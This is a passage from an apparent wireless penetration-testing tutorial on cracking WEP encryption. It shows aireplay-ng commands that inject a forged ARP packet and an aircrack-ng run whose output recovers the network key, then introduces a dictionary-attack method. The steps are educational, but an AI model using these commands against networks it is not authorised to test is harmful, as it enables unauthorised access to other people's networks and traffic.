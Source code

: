Now that we have a forged ARP packet, we can inject it back into the network. We do so with the following command:

```shell
aireplay-ng -2 -r forgedarp.cap wlan0mon

        Size: 68, FromDS: 0, ToDS: 1 (WEP)

              BSSID  =  60:38:E0:71:E9:DC
          Dest. MAC  =  FF:FF:FF:FF:FF:FF
         Source MAC  =  00:c0:ca:98:3e:e0
Use this packet ? y

```

Once this is going, we wait several moments as the initialization vectors generate. We could also start an ARP request replay attack to speed things up, as we have done previously. Once enough traffic is generated, we can attempt to crack the key with `aircrack-ng`, using the default PTW method:

```shell
sudo aircrack-ng -b 60:38:E0:71:E9:DC WEP-01.cap

                                                 Aircrack-ng 1.7

                                   [00:00:00] Tested 2 keys (got 26962 IVs)

   KB    depth   byte(vote)
    0    0/  1   26(36352) C7(35328) 2B(34560) 6D(33024) B2(32512) 06(32000) 28(32000) D7(32000)
    1    0/  1   27(37888) 4B(35328) BD(33536) 77(32768) 26(32512) AE(32512) 68(32000) 87(32000)
    2    0/  1   F6(40448) E2(34304) 2B(34048) 89(34048) 31(33536) 99(33280) 9F(33280) DE(33280)
    3    0/  1   85(35072) 7D(34304) 0D(34048) C1(33536) 55(32256) F7(32000) 36(31744) 79(31744)
    4    0/  1   97(34816) 1C(34048) F3(34048) AD(33280) 61(33024) 3C(32768) 84(32768) 02(32512)

                         KEY FOUND! [ 26:27:F6:85:97 ]
        Decrypted correctly: 100%

```

It is worth noting that fake authentication is mostly only effective with older routers, as newer routers do not generate broadcast requests when connected via fake authentication.

Attacks on the access point can be done in many different ways, with the typical aim of retrieving the PRGA keystream and key. In the next section, we will explore advanced WEP cracking techniques.


# Additional WEP Cracking

* * *

In this section, we will cover additional methods of cracking WEP. First, we’ll expand on the classic approach of using captured initialization vectors (IVs) from `airodump-ng`. Then, we’ll explore how to perform a mostly-offline dictionary attack with Python, requiring minimal captured data. The script will use [airdecap-ng](https://www.aircrack-ng.org/doku.php?id=airdecap-ng) and a password list to perform a brute-force attack, ultimately revealing the WEP key. These methods reinforce just how fragile WEP encryption is, and why it’s essential to move towards more secure protocols.
